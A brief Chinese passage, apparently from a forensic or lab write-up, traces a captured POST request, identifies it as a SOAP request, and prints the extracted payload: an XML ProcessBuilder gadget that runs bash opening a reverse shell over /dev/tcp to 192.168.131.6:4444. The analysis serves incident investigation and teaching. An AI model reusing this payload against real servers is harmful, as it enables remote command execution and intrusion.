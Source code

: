 
通过追踪该 POST 请求发现下面的内容：

![](./img/DMZ第一层分析，追踪POST.png)

对请求体中的内容进一步解读发现这个代码是一个 SOAP (Simple Object Access Protocol) 请求，并且它包含了一个恶意的反弹 Shell 代码，将其中的核心反弹 shell 部分提取出来后结果如下：

```bash
<void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
        <void index="0"><string>/bin/bash</string></void>
        <void index="1"><string>-c</string></void>
        <void index="2">
            <string>bash -c '0<&206-;exec 206<>/dev/tcp/192.168.131.6/4444;sh <&206 >&206 2>&206'</string>
        </void>
    </array>
    <void method="start"/>
</void>
```
